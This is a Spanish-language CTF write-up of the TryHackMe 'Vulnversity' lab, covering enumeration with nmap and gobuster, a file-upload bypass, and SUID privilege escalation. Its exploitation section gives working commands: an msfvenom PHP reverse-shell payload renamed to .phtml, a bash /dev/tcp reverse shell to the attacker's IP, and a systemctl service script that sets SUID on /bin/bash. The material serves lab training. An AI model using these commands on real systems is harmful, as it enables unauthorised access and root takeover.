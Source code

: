 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Linux
  - FileUpload
  - SUID
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#File Upload|File Upload]]
	- [[#Explotación#SUID|SUID]]

---
# Definición

> Se va a resolver una máquina (CTF), se trata de [Vulnversity](https://tryhackme.com/room/vulnversity) de [TryHackMe](https://tryhackme.com/).

---
## Enumeración
### Ping

Se realiza un *ping* para ver si tenemos conexión con la máquina, además de comprobar el sistema operativo con el que nos encontramos.

`ping -c 1 10.10.38.27`

![[Pasted image 20250706125542.png]]

*TTL=63* -> **Linux**
### Nmap

Se realiza un escaneo de puertos.

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.38.27 -oG allPorts`

![[Pasted image 20250706125738.png]]

`nmap -p21,22,139,445,3128,3333 -sCV 10.10.38.27 -oN targeted`

![[Pasted image 20250706125946.png]]
### Fuzzing Web

`http://10.10.38.27:3333/`

![[Pasted image 20250706131001.png]]

Se realiza **Fuzzing Web** para buscar directorios.

`gobuster dir -u http://10.10.38.27:3333/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![[Pasted image 20250706130907.png]]

`http://10.10.38.27:3333/internal/`

![[Pasted image 20250706131049.png]]

Se vuelve a realizar una búsqueda de directorios.

`gobuster dir -u http://10.10.38.27:3333/internal/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![[Pasted image 20250706131411.png]]

---
## Explotación
### File Upload

Se genera con *MSFvenom* un *payload malicioso* con extensión *.php*.

`msfvenom -p php/reverse_php LHOST=10.9.0.154 LPORT=444 -f raw > pwned.php`

![[Pasted image 20250706131226.png]]

Se sube el archivo, pero no está permitido esta extensión.

![[Pasted image 20250706131706.png]]

Se genera nuevamente con *MSFvenom* un *payload malicioso* con extensión *.phtml*.

`msfvenom -p php/reverse_php LHOST=10.9.0.154 LPORT=444 -f raw > pwned.phtml`

![[Pasted image 20250706131757.png]]

Se sube el archivo.

![[Pasted image 20250706131824.png]]

`http://10.10.38.27:3333/internal/uploads/`

![[Pasted image 20250706132128.png]]

Se inicia una escucha en el puerto 444, para que cuando ejecutemos el archivo realice la conexión.

`nc -nlvp 444`

![[Pasted image 20250706134849.png]]

Cuando tenemos conexión, se realiza una *reverse shell* para no perder la conexión.

`bash -c "sh -i >& /dev/tcp/10.9.0.154/445 0>&1"`

`nc -nlvp 445`

Se realiza el tratamiento de la terminal.

```
script /dev/null -c bash 
Ctrl + Z 
stty raw -echo; fg
reset xterm 
export TERM=xterm 
export SHELL=bash
```

![[Pasted image 20250706132511.png]]
### SUID

Se realiza una búsqueda de binarios **SUID** para la escalada de privilegios. 

`find / -perm -4000 2>/dev/null`

![[Pasted image 20250706132655.png]]

Se observa un permiso sospechoso: */bin/systemctl*. Se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/).

![[Pasted image 20250706133737.png]]

Se accede al directorio */tmp*.

`cd /tmp/`

Se crea un archivo llamado *escalation.sh*.

`nano escalation.sh`

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin//systemctl enable --now $TF
```

Se ejecuta el archivo.

`bash escalation.sh`

![[Pasted image 20250706133906.png]]

`bash -p`

![[Pasted image 20250706133930.png]]

---